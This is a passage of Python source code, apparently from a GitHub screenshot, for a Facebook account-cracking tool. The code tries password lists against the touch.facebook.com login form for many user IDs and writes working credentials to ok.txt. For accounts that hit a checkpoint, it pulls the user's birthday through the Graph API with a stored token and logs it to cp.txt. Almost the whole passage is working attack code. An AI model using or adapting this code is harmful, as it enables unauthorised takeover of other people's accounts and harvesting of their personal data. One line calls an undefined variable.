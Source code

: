 	loop += 1

def mobile(uid, pwcuk):
	try:
		ua = open("ua", "r").read()
	except IOError:
		ua = ("NokiaC3-00/5.0 (07.20) Profile/MIDP-2.1 Configuration/CLDC-1.1 Mozilla/5.0 AppleWebKit/420+ (KHTML, like Gecko) Safari/420+")
	global ua_de, ok, cp, loop, token
	sys.stdout.write(
		"\r [GK] %s/%s OK:-%s - CP:-%s "%(loop, len(id), len(ok), len(cp))
	); sys.stdout.flush()
	for pw in pwcuk:
		kwargs = {}
		pw = pw.lower()
		ses = requests.Session()
		ses.headers.update({"origin": "https://touch.facebook.com", "accept-language": "id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7", "accept-encoding": "gzip, deflate", "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8", "user-agent": ua, "Host": "touch.facebook.com", "referer": "https://touch.facebook.com/login/?next&ref=dbl&fl&refid=8", "cache-control": "max-age=0", "upgrade-insecure-requests": "1", "content-type": "application/x-www-form-urlencoded"})
		p = ses.get("https://touch.facebook.com/login/?next&ref=dbl&refid=8").text
		b = parser(p,"html.parser")
		bl = ["lsd","jazoest","m_ts","li","try_number","unrecognized_tries","login"]
		for i in b("input"):
			try:
				if i.get("name") in bl:kwargs.update({i.get("name"):i.get("value")})
				else:continue
			except:pass
		kwargs.update({"email": uid,"pass": pw,"prefill_contact_point": "","prefill_source": "","prefill_type": "","first_prefill_source": "","first_prefill_type": "","had_cp_prefilled": "false","had_password_prefilled": "false","is_smart_lock": "false","_fb_noscript": "true"})
		qobil = ses.post("https://touch.facebook.com/login/device-based/regular/login/?refsrc=https%3A%2F%2Ftouch.facebook.com%2F&lwv=100&refid=8",data=kwargs)
		if "c_user" in ses.cookies.get_dict().keys():
			kuki = (";").join([ "%s=%s" % (key, value) for key, value in ses.cookies.get_dict().items() ]).replace("noscript=1;", "")
			print("\r \x1b[1;32m[prem-OK] %s • %s • %s\033[0;97m"%(uid, pw, send.json()["access_token"]))
			ok.append("%s | %s"%(uid, pw))
			open("ok.txt","a").write("%s | %s\n"%(uid, pw))
			break
		elif "checkpoint" in ses.cookies.get_dict().keys():
			try:
				token = open("login.txt", "r").read()
				with requests.Session() as ses:
					ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token)).json()["birthday"]
					month, day, year = ttl.split("/")
					month = bulan_ttl[month]
					print("\r\x1b[1;33m [prem-CP] %s • %s • %s %s %s\033[0;97m"%(uid, pw, day, month, year))
					cp.append("%s | %s"%(uid, pw))
					open("cp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					open("checkcp.txt","a").write("%s | %s | %s\n"%(uid, pw, ttl))
					break
			except (KeyError, IOError):
				day = (" ")
				month = (" ")
				year = (" ")
			except:pass
			print("\r\x1b[1;33m [prem-CP] %s • %s\033[0;97m        "%(uid, pw))
			cp.append("%s | %s"%(uid, pw))
			open("cp.txt","a").write("%s | %s\n"%(uid, pw))
			open("checkcp.txt","a").write("%s | %s\n"%(uid, pw))
			break
		else: